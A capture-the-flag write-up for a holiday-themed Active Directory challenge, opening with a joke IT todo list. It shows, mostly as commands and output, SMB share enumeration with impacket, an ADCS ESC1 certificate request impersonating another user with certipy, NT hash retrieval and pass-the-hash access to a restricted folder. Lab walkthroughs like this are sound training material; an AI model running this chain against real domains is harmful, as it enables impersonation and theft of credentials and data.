# Geese Islands IT & Security Todo List

- [X] Sleigh GPS Upgrade: Integrate the new "Island Hopper" module into Santa's sleigh GPS. Ensure Rudolph's red nose doesn't interfere with the signal.
- [X] Reindeer Wi-Fi Antlers: Test out the new Wi-Fi boosting antler extensions on Dasher and Dancer. Perfect for those beach-side internet browsing sessions.
- [ ] Palm Tree Server Cooling: Make use of the island's natural shade. Relocate servers under palm trees for optimal cooling. Remember to watch out for falling coconuts!
- [ ] Eggnog Firewall: Upgrade the North Pole's firewall to the new EggnogOS version. Ensure it blocks any Grinch-related cyber threats effectively.
- [ ] Gingerbread Cookie Cache: Implement a gingerbread cookie caching mechanism to speed up data retrieval times. Don't let Santa eat the cache!
- [ ] Toy Workshop VPN: Establish a secure VPN tunnel back to the main toy workshop so the elves can securely access to the toy blueprints.
- [ ] Festive 2FA: Roll out the new two-factor authentication system where the second factor is singing a Christmas carol. Jingle Bells is said to be the most secure.
````
As per the TODO List Alabster is planning to implement ${\color{green}Gingerbread}$  cookie cache 🍪 
</details>

### Active Directory
Difficult: 🎄🎄🎄🎄

Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What's the name of the secret file in the inaccessible folder on the FileShare?

> [!TIP]
> Misconfiguration ADventures
> From: Alabaster Snowball
> Objective: Active Directory
> Certificates are everywhere. Did you know Active Directory (AD) uses certificates as well? Apparently the service used to manage them can have misconfigurations too.

<details>
 <summary>Solution</summary>

Ribb Bonbowford (Coggoggle Marina)
Hello, I'm Ribb Bonbowford. Nice to meet you!

I'm worried because our Active Directory server is hosted there and Wombley Cube's research department uses one of its fileshares to store their sensitive files.

I'd love for you to help with auditing our Azure and Active Directory configuration and ensure there's no way to access the research department's data.

Since you have access to Alabaster's SSH account that means you're already in the Azure environment. Knowing Alabaster, there might even be some useful tools in place already.

Ribb Bonbowford expressed his concerns about the AD and hinted we are already in the AD environment. Let's use the information obtained from previous tasks and work for this challenge.

Upon listing the files in Alabaster home directory we see the impacket tool suite is present. Let's use the smbclient package to access the SMB share using credentials obtained in Azure Key vault. 

````
alabaster@ssh-server-vm:~/impacket$ smbclient.py elfy@10.0.0.53
Impacket v0.11.0 - Copyright 2023 Fortra
Password:
````
```
# shares
ADMIN$
C$
D$
FileShare
IPC$
NETLOGON
SYSVOL
# use FIleShare
# ls
drw-rw-rw-          0  Thu Jan 18 01:12:55 2024 .
drw-rw-rw-          0  Thu Jan 18 01:12:52 2024 ..
-rw-rw-rw-     701028  Thu Jan 18 01:12:54 2024 Cookies.pdf
-rw-rw-rw-    1521650  Thu Jan 18 01:12:55 2024 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Thu Jan 18 01:12:55 2024 SignatureCookies.pdf
drw-rw-rw-          0  Thu Jan 18 01:12:54 2024 super_secret_research
-rw-rw-rw-        165  Thu Jan 18 01:12:55 2024 todo.txt
# get todo.txt
# exit
alabaster@ssh-server-vm:~/impacket$ cat todo.txt 
1. Bake some cookies.
2. Restrict access to C:\FileShare\super_secret_research to only researchers so everyone cant see the folder or read its contents
3. Profit
````
 Next task would be to get access to **C:\FileShare\super_secret_research** 

 Remember the task Reportinator where it says there is a ADCS vulnerability in the AD Environment, we will explore that. Since we have the certipy already present in Alabaster host we will use it to find if there are any 
  
````
alabaster@ssh-server-vm:~/impacket$ certipy find -vulnerable -u elfy -p J4\`ufC49/J4766 -dc-ip 10.0.0.53 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.0.0.53:636 - ssl
[+] Default path: DC=northpole,DC=local
[+] Configuration path: CN=Configuration,DC=northpole,DC=local
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
     NORTHPOLE.LOCAL\Domain Computers (S-1-5-21-1242573302-2981867581-2555354284-515)
     NORTHPOLE.LOCAL\Users (NORTHPOLE.LOCAL-S-1-5-32-545)
     NORTHPOLE.LOCAL\Everyone (NORTHPOLE.LOCAL-S-1-1-0)
     NORTHPOLE.LOCAL\Domain Users (S-1-5-21-1242573302-2981867581-2555354284-513)
     NORTHPOLE.LOCAL\Authenticated Users (NORTHPOLE.LOCAL-S-1-5-11)
     NORTHPOLE.LOCAL\elfy (S-1-5-21-1242573302-2981867581-2555354284-1104)
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[+] Trying to resolve 'npdc01.northpole.local' at '10.0.0.53'
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[+] Trying to get DCOM connection for: 10.0.0.53
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[+] Connected to remote registry at 'npdc01.northpole.local' (10.0.0.53)
[*] Got CA configuration for 'northpole-npdc01-CA'
[+] Resolved 'npdc01.northpole.local' from cache: 10.0.0.53
[+] Connecting to 10.0.0.53:80
[*] Saved BloodHound data to '20240118082058_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240118082058_Certipy.txt'
[*] Saved JSON output to '20240118082058_Certipy.json'
````
The output of Certipy shows that it is vulnerable to ESC2
[!] Vulnerabilities
ESC1 : 'NORTHPOLE.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
   
ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).
For ESC1, we can request a certificate based on the vulnerable certificate template and specify an arbitrary UPN or DNS SAN with the -upn and -dns parameter, respectively.

````
alabaster@ssh-server-vm:~$ certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -ca northpole-npdc01-CA -dc-ip 10.0.0.53 -template NorthPoleUsers -upn alabaster@northpole.local -dns npdc01.northpole.local
````
````
alabaster@ssh-server-vm:~$ certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -ca northpole-npdc01-CA -dc-ip 10.0.0.53 -template NorthPoleUsers -upn alabaster@northpole.local
````
````
alabaster@ssh-server-vm:~$ certipy auth -pfx alabaster.pfx -dc-ip 10.0.0.53 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: alabaster@northpole.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERROR_CLIENT_NOT_TRUSTED(Reserved for PKINIT)
````
Could not get anything for alabaster let's search if we can find any other used for whom we can request a certificate.
````
alabaster@ssh-server-vm:~/impacket$ GetADUsers.py -all -dc-ip 10.0.0.53 'northpole.local/elfy:J4`ufC49/J4766'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying 10.0.0.53 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
alabaster                                             2024-01-19 01:02:52.517117  2024-01-19 01:16:50.870757 
Guest                                                 <never>              <never>             
krbtgt                                                2024-01-19 01:10:45.513065  <never>             
elfy                                                  2024-01-19 01:13:05.023950  2024-01-19 21:58:23.893726 
wombleycube                                           2024-01-19 01:13:05.164594  2024-01-19 21:56:04.315004 
````
Wombleycube could help us, let's relauch certipy with Wombley
````
alabaster@ssh-server-vm:~$ certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -ca northpole-npdc01-CA -dc-ip 10.0.0.53 -template NorthPoleUsers -upn wombleycube@northpole.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 22
[*] Got certificate with UPN 'wombleycube@northpole.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'wombleycube.pfx'
alabaster@ssh-server-vm:~$ certipy auth -pfx wombleycube.pfx -dc-ip 10.0.0.53 -debugCertipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
````
Let's connect to the fileshare with wombleycube hash and read what is inside ** super_secret_research**
````
alabaster@ssh-server-vm:~/impacket$ smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 northpole.local/wombleycube@10.0.0.53
# use FileShare
# ls
drw-rw-rw-          0  Fri Jan 19 01:14:00 2024 .
drw-rw-rw-          0  Fri Jan 19 01:13:56 2024 ..
-rw-rw-rw-     701028  Fri Jan 19 01:13:59 2024 Cookies.pdf
-rw-rw-rw-    1521650  Fri Jan 19 01:14:00 2024 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Fri Jan 19 01:14:00 2024 SignatureCookies.pdf
drw-rw-rw-          0  Fri Jan 19 01:13:59 2024 super_secret_research
-rw-rw-rw-        165  Fri Jan 19 01:14:00 2024 todo.txt
# cd super_secret_research
# ls
drw-rw-rw-          0  Fri Jan 19 01:14:00 2024 .
drw-rw-rw-          0  Fri Jan 19 01:14:00 2024 ..
-rw-rw-rw-        231  Fri Jan 19 01:14:00 2024 InstructionsForEnteringSatelliteGroundStation.txt
# get InstructionsForEnteringSatelliteGroundStation.txt
````
The task is completed by giving the name of the file.

The text file contained

$\color{yellow}{\textsf{Note to self:}}$

$\color{gold}{\textsf{To enter the Satellite Ground Station (SGS), say the following into the speaker:}}$

$\color{yellow}{\textsf{And he whispered, 'Now I shall be out of sight;}}$
$\color{gold}{\textsf{So through the valley and over the height.'}}$
$\color{yellow}{\textsf{And he'll silently take his way.}}$

</details>

